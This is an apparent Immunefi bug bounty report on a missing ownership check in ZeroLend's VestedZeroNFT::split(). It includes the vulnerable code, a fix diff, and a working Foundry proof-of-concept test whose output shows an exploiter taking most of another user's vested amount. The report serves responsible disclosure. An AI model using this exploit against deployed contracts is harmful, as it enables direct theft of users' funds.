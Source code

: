 
# all NFTs can be stolen by calling VestedZeroNFT::split()

Submitted on Wed Mar 13 2024 05:27:54 GMT-0400 (Atlantic Standard Time) by @EricTee for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29288

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/zerolend/governance

Impacts:
- Direct theft of any user NFTs, whether at-rest or in-motion, other than unclaimed royalties
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro

Wrong implementation in `VestedZeroNFT::split()` causes users' NFT to be stolen by anyone. Specifically, the problem arises from the `ERC721Upgradeable.sol::_requireOwned` check in `VestedZeroNFT::split()`  which fails to check the caller is the owner of the NFT, allow anyone to split the `pendingAmount` and `upfrontAmount` of any `tokenId` up to 99%.

## Vulnerability Details

In `VestedZeroNFT::split()`:
```
 function split(
        uint256 tokenId,
        uint256 fraction
    ) external whenNotPaused nonReentrant {
        _requireOwned(tokenId);

// REDACTED by erictee
```
the `_requireOwned` check is not implemented correctly. Let's take a look at `ERC721Upgradeable.sol::_requireOwned` in Openzeppelin:
```
 function _requireOwned(uint256 tokenId) internal view returns (address) {
        address owner = _ownerOf(tokenId);
        if (owner == address(0)) {
            revert ERC721NonexistentToken(tokenId);
        }
        return owner;
    }
```
This function only return the address of the NFT owner but never revert if the caller is not the NFT owner. Therefore, anyone can call `VestedZeroNFT::split()` with any `tokenId` and to steal `pendingAmount` and `upfrontAmount` up to 99%.


## Impact Details

Direct theft of any user rewards.

## Recommendation

Consider making the following changes in `VestedZeroNFT::split()`:

```diff
 function split(
        uint256 tokenId,
        uint256 fraction
    ) external whenNotPaused nonReentrant {
--        _requireOwned(tokenId);
++       require(msg.sender == _requireOwned(tokenId), "NFT Owner only!"); 
// REDACTED by erictee
```

## References
https://github.com/zerolend/governance/blob/main/contracts/vesting/VestedZeroNFT.sol#L234
        
## Proof of concept
## Proof of Concept

* Install foundry.
* Rename the original test folder to `hardhat-test` and create a new folder name `test`.
* Add forge-std module to lib with command: `git submodule add https://github.com/foundry-rs/forge-std lib/forge-std`
* add `remappings.txt` file in `contracts` folder with the following content:

```
@ethereum-waffle/=node_modules/@ethereum-waffle/
@layerzerolabs/=node_modules/@layerzerolabs/
@openzeppelin-3/=node_modules/@openzeppelin-3/
@openzeppelin/=node_modules/@openzeppelin/
@prb/=node_modules/@prb/
@sablier/=node_modules/@sablier/
@uniswap/=node_modules/@uniswap/
@zerolendxyz/=node_modules/@zerolendxyz/
base64-sol/=node_modules/base64-sol/
erc721a/=node_modules/erc721a/
eth-gas-reporter/=node_modules/eth-gas-reporter/
forge-std/=lib/forge-std/src/
hardhat-deploy/=node_modules/hardhat-deploy/
hardhat/=node_modules/hardhat/
ds-test/=lib/forge-std/lib/ds-test/src/
```

* Add `VestedZeroNFT.t.sol` file within test folder with the following content:

```javascript
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {Test, console} from "forge-std/Test.sol";
import {VestedZeroNFT} from "../contracts/vesting/VestedZeroNFT.sol";
import {ZeroLend} from "../contracts/ZeroLendToken.sol";
import {StakingBonus} from "../contracts/vesting/StakingBonus.sol";
import {IVestedZeroNFT} from "../contracts/interfaces/IVestedZeroNFT.sol";
contract VestedZeroNFTTest is Test {
   
    address public admin;
    VestedZeroNFT public vesting;
    ZeroLend public zero;
    StakingBonus public stakingbonus;
    address public bob;
    address public exploiter;

    function setUp() public {
        vesting = new VestedZeroNFT();
        zero = new ZeroLend();
        stakingbonus = new StakingBonus(); //erictee: no need to init here as this is for testing.

        vesting.init(address(zero),address(stakingbonus));
        bob = makeAddr("BOB");
        exploiter = makeAddr("EXPLOITER");

        zero.togglePause(false);

    }

    
    function test_correct() external {
        console.log(address(vesting));
        console.log(address(vesting.zero()));
        console.log(zero.balanceOf(address(this)));
    }
    
    function test_StealAmountBySplitting() external {
        // preparation
        zero.approve(address(vesting), type(uint256).max);
        vesting.mint(
        bob, 
        15e18,   // 15 ZERO linear vesting
        5e18,  // 5 ZERO upfront
        1000,  // linear duration - 1000 seconds
        500,  // cliff duration - 500 seconds
        block.timestamp + 1000,  // unlock date
        false,   // penalty -> false
        IVestedZeroNFT.VestCategory.PRIVATE_SALE // 0
        );  // Same config as typescript testcase.

        vm.warp(block.timestamp + 1000); //fast forward to unlock date.

       (uint256 upfrontBefore, uint256 pendingBefore ) = vesting.claimable(1); // tokenId = 1
       console.log("UPFRONT BOB Before: ", upfrontBefore);
       console.log("PENDING BOB Before: ", pendingBefore);

       vm.startPrank(exploiter);
       vesting.split(1, 1); // tokenId = 1 , fraction =1 

    
       vm.stopPrank();

       (uint256 upfrontExploiter, uint256 pendingExploiter) = vesting.claimable(2); // exploiter owns the tokenId 2 
       console.log("UPFRONT EXPLOITER: ", upfrontExploiter);
       console.log("PENDING EXPLOITER: ", pendingExploiter);



       (uint256 upfrontAfter, uint256 pendingAfter ) = vesting.claimable(1); // tokenId = 1
       console.log("UPFRONT BOB After: ", upfrontAfter);
       console.log("PENDING BOB After: ", pendingAfter);


    }
}
```

* Finally, run the foundry test with :  `forge test --match-test test_StealAmountBySplitting -vv`

Foundry Result:
```
Running 1 test for test/VestedZeroNFT.t.sol:VestedZeroNFTTest
[PASS] test_StealAmountBySplitting() (gas: 656485)
Logs:
  UPFRONT BOB Before:  5000000000000000000
  PENDING BOB Before:  0
  UPFRONT EXPLOITER:  4999500000000000000
  PENDING EXPLOITER:  0
  UPFRONT BOB After:  500000000000000
  PENDING BOB After:  0

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 3.15ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
